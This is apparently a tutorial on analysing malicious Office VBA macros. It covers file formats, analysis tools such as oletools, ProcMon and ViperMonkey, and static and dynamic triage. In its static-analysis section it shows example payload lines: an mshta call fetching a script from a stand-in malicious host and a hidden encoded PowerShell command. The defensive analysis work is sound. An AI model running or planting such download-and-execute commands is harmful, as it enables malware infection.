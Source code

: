 ### Macros
A **macro** is a piece of code (written in VBA - Visual Basic for Applications) that automates repetitive tasks within Microsoft Office applications like Word, Excel, and PowerPoint.

- **Legitimate Use:** A user could record a macro to automatically format a document in a specific way, import data, or perform complex calculations.
- **Malicious Use (Macro Malware):** Cybercriminals write malicious macros. When an unsuspecting user opens a Word document and enables macros, the code executes. This code can download and install other malware, steal data, or take control of the system.

### The File Format

Modern Word documents (`.docx`, `.xlsx`, etc.) are essentially ZIP archives containing several XML files that define the document's text, styling, settings, and media. This is the "XML-like" structure you're referring to.

- When you create a macro in a Word document, the VBA code is stored inside this ZIP/XML structure in a separate project file.
- This means a perfectly normal-looking `.docx` file can secretly be a carrier for malicious code embedded within its structure.

### Core Microsoft 365 / Office Applications with VBA Support:

1. **Microsoft Excel**
2. **Microsoft Word**
3. **Microsoft PowerPoint**
4. **Microsoft Access** (Heavily relies on macros and VBA for automation and building applications)
5. **Microsoft Outlook** (Used for automating email, calendar, and contact tasks)
6. **Microsoft Publisher**
7. **Microsoft Visio** (Professional diagramming tool)

### Key Points to Remember:

- **File Extensions:** The tell-tale sign that a file _might_ contain macros is its file extension.
    
    - A file with an **`m`** at the end (e.g., `.docm`, `.xlsm`, `.pptm`) **definitely contains macros**.
    - A file with an `x` at the end (e.g., `.docx`, `.xlsx`, `.pptx`) should not contain macros, but it is possible for older file types or through exploits.
- **Security Warning:** Any of these applications will display a prominent **security warning** when opening a file containing macros, asking you to "Enable Content." You should only do this if you are absolutely certain the file is from a trusted source and you were expecting it.
- **Not All Support VBA:** Other Microsoft applications like **Microsoft Edge**, **OneNote**, and **Microsoft Teams** do not support VBA macros.

Here is a table for a clearer overview:

|Application Name|Primary Use|Macro-Enabled File Extension|Risk Level for Malware|
|---|---|---|---|
|**Microsoft Excel**|Spreadsheets & Data Analysis|`.xlsm`|Very High|
|**Microsoft Word**|Word Processing|`.docm`|Very High|
|**Microsoft PowerPoint**|Presentations|`.pptm`|High|
|**Microsoft Access**|Database Management|`.accdb` (can contain code)|High (can be used to run system commands)|
|**Microsoft Outlook**|Email & Calendar|N/A (Macros are stored in the client itself)|High (Can automate sending emails/data exfiltration)|
|**Microsoft Publisher**|Desktop Publishing|`.pub` (can contain code)|Medium|
|**Microsoft Visio**|Diagramming & Flowcharts|`.vsdm`|Medium|

---

### Phase 1: Initial Triage & Static Analysis

This phase is about examining the document without executing its code.

#### **Tools:**

1.  **oleid & oletools Suite:** The absolute go-to for initial analysis.
    *   **`oleid`**: Analyzes the file for common malicious indicators (Macros, suspicious streams, etc.). `oleid malicious.doc`
    *   **`olevba`**: Extracts and analyzes VBA macros. It shows the code and flags suspicious keywords (like `Shell`, `WScript.Shell`, `AutoOpen`). `olevba malicious.doc`
    *   **`oleobj`**: Extracts embedded objects (like Flash files, PDFs) from the document.
    *   **`rtfobj`**: Specifically for analyzing malicious RTF files.
    *   **Installation:** `pip install oletools`

2.  **OfficeMalScanner:** A powerful older tool that can scan the file structure, extract macros, and even brute-force the password on encrypted macros.
    *   `OfficeMalScanner malicious.doc scan`

3.  **Hex Editor (HxD, 010 Editor):** To manually inspect the file's binary structure, look for OLE2 headers, and find obfuscated strings.

4.  **Strings Utility (Sysinternals):** Extracts all human-readable strings from the binary file. Look for:
    *   VBA function names (`AutoOpen`, `Document_Open`)
    *   API calls (`kernel32`, `CreateProcess`)
    *   URLs, IP addresses, and file paths.
    *   Command: `strings.exe -accepteula malicious.doc > strings.txt`

5.  **7-Zip or any ZIP utility:** Remember, `.docx` is a ZIP archive. Rename `malicious.docx` to `malicious.zip` and extract it. Look inside the `word/vbaProject.bin` or other subfolders for interesting content.

#### **Important Tips for Static Analysis:**

*   **Look for Obfuscation:** Macros are almost always obfuscated. Look for:
    *   **Char Obfuscation:** `Chr(78) & Chr(101) & Chr(116)` instead of `"Net"`
    *   **String Reversal:** `StrReverse("tseT")`
    *   **Large amounts of variables** with meaningless names (`a1, b2, xyz`).
    *   The code will often decode itself in memory. Your goal is to find the deobfuscation routine.
*   **Identify the "Weaponization":** How is the macro triggered?
    *   `AutoOpen()`: Runs when the document is opened.
    *   `Document_Open()`: Same as above.
    *   `Workbook_Open()`: For Excel.
    *   Custom Subs/Functions called by these auto-triggers.
*   **Find the Payload:** What does the macro do? It usually follows a pattern:
    1.  **Deobfuscate** a string (a URL or a PowerShell command).
    2.  **Execute** it using a method like:
        *   `Shell("cmd.exe /c ...")`
        *   `WScript.Shell.Run(...)`
        *   **MSHTA:** `mshta http://malicious.site/script.hta`
        *   **Powershell:** The most common method. `PowerShell -WindowStyle Hidden -EncodedCommand <B64_Blob>`

---

### Phase 2: Dynamic Analysis (Behavioral Analysis)

This phase involves executing the macro in a controlled environment to see what it does.

#### **Tools:**

1.  **Process Monitor (ProcMon - Sysinternals):** The most critical tool. It logs all file system, registry, and process activity. Set filters for the process name (`WINWORD.EXE`) to see everything it touches.
2.  **Process Explorer (Sysinternals):** A superior Task Manager. See child processes spawned (e.g., `cmd.exe` -> `powershell.exe`). Verify digital signatures.
3.  **Wireshark / TCPdump:** Monitor all network traffic from the VM. See if the macro calls out to a C2 server to download the next-stage payload.
4.  **API Monitor (apimonitor.com):** Intercepts and logs API calls made by Office and any spawned processes. Great for seeing deep technical behavior.
5.  **REMnux:** A Linux distribution tailored for malware analysis. It contains all the tools mentioned here and many more, pre-installed. Perfect for running `inetsim` to simulate internet services.

#### **Important Tips for Dynamic Analysis:**

*   **Patch Your Analysis VM:** Office must be vulnerable for the exploit to work. If you're analyzing an exploit (not just a macro), ensure your Office version is old and unpatched to match the threat.
*   **Control Execution:** Use a debugger to step through the macro code if possible, though this is advanced.
*   **Focus on Child Processes:** The initial `WINWORD.EXE` process is harmless. The key is to catch the **child process** it spawns (e.g., `powershell.exe`, `cmd.exe`, `mshta.exe`). This is where the real payload runs.
*   **Capture the Payload:** The goal is to see what the macro downloads or drops. Use ProcMon to see the new file written to `%TEMP%` and then grab it for analysis.

---

### Phase 3: Advanced & Deobfuscation

1.  **Debugger (x64dbg/x32dbg):** For shellcode analysis if the document contains an exploit (e.g., CVE exploit) that drops shellcode into memory.
2.  **vivisect / libvmi:** For advanced memory analysis.
3.  **Custom Python Scripts:** The best way to deobfuscate. Use the `oletools` API to extract the VBA, parse the Abstract Syntax Tree (AST), and rewrite the code to resolve variables. Often, you can just run the deobfuscation function from the macro itself in a controlled Python script to get the clean output.

### The Analyst's Checklist:

1.  **Isolate:** Load the sample into your isolated VM.
2.  **Triage:** Run `oleid`, `olevba`, and `strings`. Get a quick feel for the threat.
3.  **Deobfuscate:** Manually or with scripts, try to decode the main payload (usually a PowerShell command).
4.  **Monitor:** Start ProcMon, Wireshark, and Process Explorer. Configure your filters.
5.  **Detonate:** Open the document and **enable macros**. Observe the tool outputs.
6.  **Capture:** Note any spawned processes, created files, and network connections. Retrieve the next-stage payload.
7.  **Document & Report:** Write down the IOC's (Indicators of Compromise): Hashes, IPs, URLs, domains, and the TTPs (Tactics, Techniques, and Procedures) used.


By using **[ViperMonkey](https://github.com/decalage2/ViperMonkey)** I was able to extract the VBA macros
ViperMonkey is a VBA Emulation engine written in Python, designed to analyze and deobfuscate malicious VBA Macros contained in Microsoft Office files (Word, Excel, PowerPoint, Publisher, etc).